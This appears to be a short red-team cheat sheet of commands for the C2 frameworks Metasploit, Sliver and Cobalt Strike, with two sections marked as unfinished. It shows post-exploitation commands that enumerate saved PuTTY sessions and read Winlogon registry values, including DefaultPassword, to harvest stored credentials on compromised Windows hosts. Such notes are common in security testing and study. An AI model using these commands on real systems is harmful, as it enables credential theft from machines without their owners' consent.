 # C2 Frameworks

## 01 - Metasploit

### 1.1 - Post Module

```
meterpreter > run post/windows/gather/enum_putty_saved_sessions
```

### 1.2 - Interactive Session

```
meterpreter > reg enumkey [-r <target_IP>] -k HKCU\\Software\\SimonTatham\\PuTTY\\Sessions [-w <64>]
```

## 02 - Sliver

TODO: Fill this info

```
sliver (IMPLANT_NAME) > registry read -H HKLM "SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon"

sliver (IMPLANT_NAME) > registry read
```

## 03 - Cobalt Strike

TODO: Fill this info

```
beacon> reg query x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon"

beacon> reg queryv x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon" DefaultUserName

beacon> reg queryv x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon" DefaultDomainName

beacon> reg queryv x64 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon" DefaultPassword
```